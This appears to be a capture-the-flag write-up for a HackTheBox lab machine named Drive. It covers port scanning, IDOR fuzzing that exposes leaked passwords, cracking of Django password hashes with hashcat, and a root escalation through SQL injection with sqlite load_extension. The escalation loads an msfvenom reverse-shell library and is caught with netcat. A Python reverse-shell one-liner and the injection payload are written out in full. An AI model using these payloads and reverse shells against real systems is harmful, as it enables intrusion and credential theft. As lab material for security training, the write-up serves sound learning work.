 ## Recon time
```
└─# nmap 10.10.11.235
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-15 03:31 GMT
Nmap scan report for drive.htb (10.10.11.235)
Host is up (2.6s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp
```
## Shell

python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 

Not work
## Fuzz for idor
when i reserve files i got like : http://drive.htb/100/block/. Now i use burp to fuzz that endepoint number from 3 digit 
and found
`hey team after the great success of the platform we need now to continue the work.
on the new features for ours platform.
I have created a user for martin on the server to make the workflow easier for you please use the password "Xk4@KjyrYv8t194L!".
please make the necessary changes to the code before the end of the month
I will reach you soon with the token to apply your changes on the repo
thanks! `

## Escalation
used linpeash
`https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
108M -rwxrwxr-x 1 1000 1000 108M Dec 25  2022 /usr/local/bin/gitea
`

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -  
```
```
sqlite> SELECT * FROM accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```
But these password not give me anything
## Port forward with the filtered port Gitea
ssh -L 4000:localhost:3000 user@ip

## Re-scan
I rescan the webapp and found other sensituve files
 http://drive.htb/98/block/
 `hi team
have a great day.
we are testing the new edit functionality!
it seems to work great!`

and http://drive.htb/99/block/

` hi team
please we have to stop using the document platform for the chat
+I have fixed the security issues in the middleware
thanks! :) `

and : http://drive.htb/101/block/
`hi team!
me and my friend(Cris) created a new scheduled backup plan for the database
the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM
*Note: the backup directory may change in the future!
*Note2: the backup would be protected with strong password! don't even think to crack it guys! :) `
`H@ckThisP@ssW0rDIfY0uC@n:)`


## Crack pass
Tom hash : sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
`└─# hashcat -a0 -m124 hashes.txt /usr/share/wordlists/rockyou.txt`
```
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 124 (Django (SHA-1))
Hash.Target......: sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b252...69525a
Time.Started.....: Sun Oct 15 06:37:38 2023 (0 secs)
Time.Estimated...: Sun Oct 15 06:37:38 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1638.1 kH/s (0.19ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 641024/14344385 (4.47%)
Rejected.........: 0/641024 (0.00%)
Restore.Point....: 640000/14344385 (4.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: jonny05 -> joanax
Hardware.Mon.#1..: Temp: 79c Util: 61%

Started: Sun Oct 15 06:37:06 2023
Stopped: Sun Oct 15 06:37:40 2023
```
## Way to Root

```
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'SELECT id,last_login,is_superuser,username,email,is_staff,is_active,date_joined FROM accounts_customuser;'
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'SELECT id,name FROM accounts_g;'
/usr/bin/sudo -u www-data /opt/server-health-check.sh
Enter username to activate account: 
Error: Username cannot be empty.
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'UPDATE accounts_customuser SET is_active=1 WHERE username="%s";'
Activating account for user '%s'...
/usr/bin/sudo -u www-data /usr/bin/tail -1000 /var/log/nginx/access.log
doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 
exiting...
please Select a valid option...
PATH
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
Enter password for 
moriarty
findMeIfY0uC@nMr.Holmz!
Welcome...!
Invalid username or password.
xeon_phi
haswell
```



### ROOT the box

Rev shell 
`msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o 0.so`
Upload it to tom's home directory
Then `nc -lnvp your port`
Payload to be used within the binary option 5 
`"+load_extension(char(46,47,48))+"`
Including the double quotes
That will give you a shell as root

`Select option: 5
Enter username to activate account: "+load_extension(char(46,47,48))+"
Activating account for user '"+load_extension(char(46,47,48))+"'...
`
```
└─# nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.235] 34858
id
uid=0(root) gid=0(root) groups=0(root),1003(tom)
whoami
root
pwd
/home/tom
cd
pwd
/home/tom
cd /root
ls
root.txt
cat root.txt
f62cb458a61486006f86d7989b611f18
```